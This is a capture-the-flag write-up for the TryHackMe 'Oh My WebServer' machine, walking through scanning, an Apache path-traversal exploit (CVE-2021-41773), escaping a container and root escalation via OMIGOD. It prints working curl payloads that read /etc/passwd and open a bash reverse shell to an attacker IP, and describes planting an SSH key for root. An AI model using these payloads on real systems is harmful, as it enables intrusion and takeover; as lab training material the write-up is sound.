 # Oh My WebServer TryHackMe Writeup
### Level: `Medium` | OS: `Linux`

![logo](1.png)

## Scanning
We run nmap on all ports with scripts and software versions.
![](2.png)

## Enumeration
We access the website and find this page of an active web server:
![](3.png)

We launch **dirsearch** to search for existing directories or files that may be relevant for other attacks.
![](4.png)


## Exploitation
Exploited vulnerability CVE-2021-41773

#### PoC
```bash 
curl -v 'http://ohmyweb.thm/cgi-bin/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/bin/bash' -d 'echo Content-Type: text/plain; echo; cat /etc/passwd' -H "Content-Type: text/plain"
```

![](5.png)

### Reverse shell
```bash
curl -v 'http://ohmyweb.thm/cgi-bin/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/bin/bash' -d 'echo Content-Type: text/plain; echo; bash -i >& /dev/tcp/10.8.246.129/443 0>&1' -H "Content-Type: text/plain"
```
![](6.png)

### Attack Machine
![](7.png)

It looks like we are on a docker machine and we will need to exit the docker and connect to the host machine.

## Privilege Escalation
There is a script in "*/tmp*"
![](8.png)

The file includes a github to a CVE, reading about this CVE allows privilege escalation on the system.

### Exploit: [https://github.com/midoxnet/CVE-2021-38647](https://github.com/midoxnet/CVE-2021-38647)

#### PoC
![](9.png)

We list the root directory, we could "cheat" and read the flag directly, but the idea is to exploit the vulnerability and get privilege escalation as root.
![](10.png)

We see that the "*id_rsa*" file does not exist, but the "*authorized_keys*" file does exist, remember that the machine has the **SSH** service open, so we will take advantage of the vulnerability to transfer our public key to the file and enter by **SSH** with the "*root*" user.
![](11.png)

We put our public key in the file "*authorized_keys*" exploiting the vulnerability "**OMIGOD**".
![](12.png)

We connect via **SSH** with our private key and read the root flag.
![](13.png)

I almost forgot! We still need to identify the user flag, let's do a **find** in the root directory and we will get it easily.
![](14.png)
---
## About

David Utón is Penetration Tester and security auditor for web and mobiles applications, perimeter networks, internal and industrial corporate infrastructures, and wireless networks.

#### Contacted on:

<img src='https://m3n0sd0n4ld.github.io/imgs/linkedin.png' width='40' align='center'> [David-Uton](https://www.linkedin.com/in/david-uton/)
<img src='https://m3n0sd0n4ld.github.io/imgs/twitter.png' width='43' align='center'> [@David_Uton](https://twitter.com/David_Uton)
